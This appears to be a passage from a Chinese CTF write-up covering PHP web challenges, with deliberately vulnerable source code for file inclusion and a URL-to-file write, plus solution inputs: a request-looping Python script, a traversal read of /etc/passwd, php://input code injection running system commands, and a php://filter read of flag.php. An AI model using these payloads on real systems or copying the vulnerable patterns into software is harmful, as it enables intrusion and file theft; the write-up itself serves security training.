 > 120秒直接手工传参，传十次就得到flag了
>
> 也可以写个脚本
>
> ```python
> import requests
> url='http://XXX'
> a=requests.Session()
> b=a.get(url+'?value[]=ea').text
> for i in range(10):
>     b=a.get(url+'?value[]='+ b[0:2]).text  //这里的b[0:2]是获取读取的源代码的前两个字符,因为手工传一次`?value[]=ea`后可以发现，新的随机数在源码最前面  
>     print(b)
> ```



# challenge 14

**源码**

```php
 <?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
    include($_REQUEST['path']);
}else{
    include('phpinfo.php');
}
PHP logo
```

> 在linux文件/etc/passwd中包含用户名、用户[ID]、用户群组[ID]、用户描述信息、家目录以及登录shell
> ?path=../../../../etc/passwd
> allow_url_include打开着,使用php://input协议，post传递参数<?php system("ls");?>，可以发现flag.php
>
> 直接使用`php://filter/read=convert.base64-encode/resource=flag.php`读取文件内容
> 也可以继续使用php://input协议，post传递参数<?php system("cat flag.php");?>





# challenge 15

**源码**

```php
<?php
if(isset($_GET) && !empty($_GET)){        #存在GET且不为空
    $url = $_GET['file'];
    $path = 'upload/'.$_GET['path'];    #拼接路径
}else{
    show_source(__FILE__);
    exit();
}
 
if(strpos($path,'..') > -1){    # $path中不含..
    die('SYCwaf!');
}
 
if(strpos($url,'http://127.0.0.1/') === 0){          #$file变量中 http://127.0.0.1/ 存 在且为开头
    file_put_contents($path, file_get_contents($url));   #读取$url内容并写入$path
    echo "console.log($path update successed!)";   # 在控制台输出$path update successed!
}else{
    echo "Hello.Geeker";
}
```